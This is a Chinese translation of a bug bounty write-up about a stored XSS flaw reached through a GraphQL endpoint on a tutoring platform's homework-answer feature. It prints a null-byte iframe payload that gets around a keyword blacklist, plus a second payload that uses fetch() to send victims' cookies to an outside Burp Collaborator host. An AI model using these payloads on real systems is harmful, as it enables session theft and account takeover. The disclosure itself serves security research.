




# Pwning 您的分配:通过 GraphQL 端点存储 XSS

> 原文：<https://infosecwriteups.com/pwning-your-assignments-stored-xss-via-graphql-endpoint-6dd36c8a19d5?source=collection_archive---------1----------------------->

# 背景

这个 bug 是在一个高度成熟的 bug bounty 程序中发现的，该程序作为一个公共/私人程序在各种众包平台上运行了 4-5 年。事实上，这个程序已经停止运行，而且这个错误是在 5 个月前报告的，所以我决定在社区里分享这个错误:)
所以让我们开始吧！

当我开始研究这个程序时，它报告了 700 多个错误，因此由于这个程序的成熟，它有奖金。我花了 2-3 天时间观察目标，一无所获。大约一个星期后，我和一个随机的大学朋友进行了讨论，他告诉我关于通过帮助年轻学生的平台赚钱的事情。令人惊讶的是，这是我追求的同一家公司。他谈到的辅导功能是不能直接访问的。

在研究该特定功能时，我发现了以下情况:

*   它需要一个帐户注册。
*   通过一个我期待能帮助学生的测试。
*   提交政府文件。身份证明。
*   等待 2 周进行验证。

我认为很难使用这个功能。因此，很多人可能不会深入应用程序。我申请了计算机科学辅导，通过了考试，现在我可以选择帮助学生做作业了！

我决定在这里检查的 bug 类型有:CSRF、伊多尔和 XSS。CSRF 很快就失败了，因为每个请求都有大量的检查。此外，在 UUIDv4 被正确使用的情况下，IDOR 对我来说并不实用。

# XSS 来了！

在回答问题时，我发现“，>”是允许的，但是像 script、iframe、alert 等关键字被从答案中删除了。翻了一下 [Web Hacker's Handbook](https://www.amazon.in/Web-Application-Hackers-Handbook-Exploiting-ebook/dp/B005LVQA9S) ，发现在*>*前加了一个 *%00(空字节)*并没有对关键词进行净化。因此，我创建了以下有效负载:

```
<iframe %00 src=\"javascript:prompt(1)\"%00>
```

*   *%00* 绕开黑名单
*   *\"* 在 GraphQL 输入字段中传递双引号

上述有效载荷反映如下:



源代码中的反射

而且我得到了有 cookies 的提示！



XSS 提示！

我很快报告了这个 bug，但是 triager 认为它是一个自我存储的 XSS，并要求我演示影响。

**攻击场景/最终利用**
一名学生提出了一个疑问，教师用一个盲 XSS 有效载荷提交了答案。一旦学生检查了答案，他的 cookies 就会被传递给教师。因此，每次教师帮助学生时，他/她都可以接管学生的帐户！

**有效载荷:**

```
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
```

*   *fetch()* 允许发出类似于 XMLHttpRequest (XHR)的网络请求
*   */？param=* 添加以避免使其成为域的一部分

我很快回答了一个学生的问题，并在解答的最后加上了上面的有效载荷。不到 5 分钟，学生检查了答案，瞧，我有了学生的饼干！



学生饼干拿来了

在对以前的报告进行修改后，它最终被接受为有效的调查结果。



奖励:)

# 外卖食品

保持好奇心，永远深入研究应用程序。其他黑客通常会忽略更难访问的功能。

感谢 [Dk999](https://twitter.com/debangshu_kundu) 校对文章:)

如果你对这个发现有疑问，请在[推特](https://twitter.com/dominat0r98)上给我留言。不久将披露更多的报道。狩猎愉快！